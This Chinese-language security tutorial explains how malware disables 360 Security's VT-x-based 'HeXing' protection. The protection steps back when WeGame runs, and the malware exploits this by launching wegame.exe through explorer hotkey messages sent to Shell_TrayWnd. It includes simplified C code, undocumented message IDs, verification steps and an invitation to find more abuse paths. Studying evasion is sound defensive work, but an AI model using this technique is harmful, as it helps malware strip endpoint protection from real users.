

# 对抗虚拟化 - 特殊"国情"下的绕过

## 杀毒软件在更高层的俯视 {#杀毒软件在更高层的俯视}

在上一章节中，我们讲了一种古老却仍然有效的技术：BYOVD，它允许攻击者将存在漏洞的驱动程序加载到ring 0层，在同样的权限等级下对抗杀毒软件自己的驱动和清理掉内存中的回调函数结构。

这种攻击手法在最近几年迎来了爆发式增长，大名鼎鼎的银狐正是用这种手法瘫痪了大部分主流的杀毒软件和一些edr。

于是，为了对抗这种同一层级的威胁，杀毒软件选择使用Intel VT-x虚拟化技术把自己的代码放到了等级更高的ring -1虚拟化层，windows操作系统同样也实现了一套类似的保护手法（内核隔离）。

**是的，杀毒软件通过这样的方式获得了更高的对抗优先级，但在中国有个特殊情况。**

---

## 核心背景：360的"核晶"技术 {#核心背景360的核晶技术}

### 什么是核晶？ {#什么是核晶}

360有个安全组件叫"核晶"，它正是用了我们刚才提到的Intel VT-x虚拟化技术来保护系统：

```text
正常情况：
你的程序 → 直接操作硬件

核晶开启后：
你的程序 → 核晶监控层 → 硬件
          ↑
      (基于VT-x虚拟化)
```

**简单说**：核晶会在硬件层面监控你的操作，比如修改内核代码、注入其他进程等，都会被拦截。

---

### 问题来了：游戏反外挂也用VT {#问题来了游戏反外挂也用vt}

中国的网游（比如腾讯系游戏）有非常强势的反外挂系统，它们**也用VT虚拟化技术**。

```text
冲突：
360核晶 → 占用VT
游戏反外挂 → 也要占用VT

结果：只有一个能跑！
```

**实际情况**：如果游戏检测到360核晶占用了VT，会直接报错："请关闭虚拟化软件"。

---

## 360的妥协：自动退出机制 {#h-360的妥协自动退出机制}

### 国情决定的选择 {#国情决定的选择}

360面临一个艰难选择：

- **不妥协**：用户打不开游戏 → 用户卸载360 ❌
- **妥协**：检测到游戏启动时，核晶主动退出 ✅

**360选了后者。**

当检测到特定游戏（比如WeGame相关游戏）启动时，核晶会进入"自适应状态"，实际上就是暂时关闭VT保护。

---

## 攻击者怎么利用这个？ {#攻击者怎么利用这个}

### 核心思路 {#核心思路}



```text
正常情况：
运行恶意程序 → 核晶拦截 ✗

利用游戏进程：
启动游戏相关exe → 核晶退出 → 运行恶意程序 ✓
```

### 实战案例分析 {#实战案例分析}

有人逆向了一个样本，发现了360的检测逻辑：

**样本做了什么？**

```text
1. 释放 wegame.exe 到 C:\ProgramData\
2. 杀掉 qq.exe 进程（避免快捷键冲突）
3. 通过特殊方法启动 wegame.exe
4. 核晶检测到 wegame → 自动退出VT保护
5. 执行真正的恶意代码
6. 任务完成后，kill掉 wegame.exe
```

---

### 关键技术点：绕过父进程检测 {#关键技术点绕过父进程检测}

360不傻，如果你直接用`CreateProcess`启动wegame.exe，它能检测到父进程是你的恶意程序：

```text
恶意程序.exe
  └─ wegame.exe  ← 360检测：父进程可疑！拦截！
```

**样本的绕过方法**：

```text
1. 找到任务栏窗口（Shell_TrayWnd）
2. 向它发送特定消息
3. 注册一个快捷键（比如 Ctrl+Alt+A）
4. 模拟键盘按下快捷键
5. Explorer.exe 响应快捷键，启动 wegame.exe
```

**结果**：

```text
explorer.exe（系统进程）
  └─ wegame.exe  ← 360检测：父进程是explorer，正常启动！
```

---

### 代码逻辑（简化版） {#代码逻辑简化版}

样本的核心代码大致长这样：

```c
void BypassHeXing() {
    // 1. 释放游戏exe
    DropFile("C:\\ProgramData\\wegame.exe");

    // 2. 杀掉QQ（避免快捷键冲突）
    TerminateProcessByName("qq.exe");

    // 3. 找到任务栏窗口
    HWND hTray = FindWindow("Shell_TrayWnd", NULL);

    // 4. 发送特定消息（注册快捷键）
    for (int i = 0; i < 10; i++) {
        PostMessage(hTray, 0x4EA, 0, 0);  // 360样本中的消息值
    }

    // 5. 模拟按下快捷键（触发explorer启动wegame）
    keybd_event(VK_CONTROL, 0, 0, 0);
    keybd_event(VK_MENU, 0, 0, 0);
    keybd_event('A', 0, 0, 0);
    keybd_event('A', 0, KEYEVENTF_KEYUP, 0);
    keybd_event(VK_MENU, 0, KEYEVENTF_KEYUP, 0);
    keybd_event(VK_CONTROL, 0, KEYEVENTF_KEYUP, 0);

    Sleep(3000);  // 等待核晶退出

    // 6. 执行真正的恶意操作
    RunMaliciousPayload();

    // 7. 清理痕迹
    HWND hWeGame = FindWindow(NULL, "WeGame");
    SendMessage(hWeGame, WM_QUIT, 0, 0);
}
```

---

## 为什么这个方法有效？ {#为什么这个方法有效}

### 调用链分析 {#调用链分析}

当你模拟快捷键后，Windows内部发生了这些事：

```text
user32!CallWindowProcW  ← 处理快捷键
  └─ Explorer!CTray::v_WndProc  ← 任务栏窗口过程
      └─ Explorer!CTray::_HotkeySearchFailed  ← 快捷键处理
          └─ Explorer!_ExecItemByPidls  ← 执行快捷方式
              └─ shlwapi!SHInvokeDefaultCommand  ← 调用Shell执行
                  └─ SHELL32!CDefFolderMenu::InvokeCommand
                      └─ ntdll!NtCreateUserProcess  ← 创建进程
```

**关键点**：

- 整个调用链都是系统组件
- 父进程是`explorer.exe`（系统进程）
- 360无法判断这是恶意行为

---

## 其他可利用的触发方式 {#其他可利用的触发方式}

除了快捷键，还可以通过以下消息触发：

```text
0x4E6  → 注册快捷键
0x4E9  → 执行快捷键
0x4EA  → 触发特定操作
```

你可以用这些消息ID去探索更多的利用姿势。

---

## 实际验证 {#实际验证}

**测试步骤**：

```text
1. 安装360安全卫士，开启"核晶"防护
2. 运行上面的代码启动wegame.exe
3. 打开360主界面，查看"核晶"状态

结果：显示"自适应"状态（实际上已停用VT）
```

**此时你的恶意代码可以做什么？**

- 注入进程（正常会被拦截）
- 修改内核代码（正常会被拦截）
- 加载驱动（正常会被拦截）

---

## 一点思考 {#一点思考}

### 这个案例说明了什么？ {#这个案例说明了什么}

```text
✓ 安全软件必须考虑"用户体验"
✓ 强势的第三方（游戏厂商）可以倒逼安全软件妥协
✓ 这种妥协会成为攻击者的突破口
```
